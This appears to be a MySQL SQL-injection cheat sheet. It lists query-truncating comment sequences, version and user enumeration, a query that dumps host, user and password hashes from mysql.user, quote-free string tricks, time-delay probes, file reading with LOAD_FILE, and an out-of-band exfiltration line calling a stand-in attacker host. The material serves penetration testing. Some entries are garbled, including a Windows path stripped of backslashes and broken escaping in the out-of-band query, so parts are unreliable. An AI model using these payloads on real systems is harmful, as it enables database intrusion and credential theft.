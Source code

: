 # Comments
```
#
/*
-- -
;%00
```

# Version
```
SELECT VERSION();
SELECT @@VERSION;
SELECT @@GLOBAL.VERSION;
```

# User details
```
user()
current_user()
system_user()
session_user()
SELECT user,password FROM mysql.user;
```

# Database details
```
SELECT db_name();
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

# Database credentials
```
SELECT host, user, password FROM mysql.user;
```

# Server details
```
SELECT @@hostname;
```

# Table Name
```
SELECT table_name FROM information_schema.tables;
```

# Columns Names
```
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
```

# No Quotes
```
CONCAT(CHAR(97), CHAR(98), CHAR(99))
```

# String Concatenation
```
CONCAT(foo, bar)
```
 
# Conditionals
```
SELECT IF(1=1,'true','false');
```
 
# Time-delay
```
Sleep(10)
```

# Command Execution

http://dev.mysql.com/doc/refman/5.1/en/adding-udf.html


# "RunAs"
```
N/A
```

# Read Files
```
SELECT LOAD_FILE('C:Windowswin.ini');
```

# Out-of-Band Retrieval
```
SELECT LOAD_FILE(concat('\\',(SELECT 1), 'attacker.controlledserver.com\')));
```

# Substrings
```
SELECT substr(‘Foobr’, 1, 1);
```

# Retrieve Nth Line
```
SELECT * FROM table ORDER BY ID LIMIT 3,1
```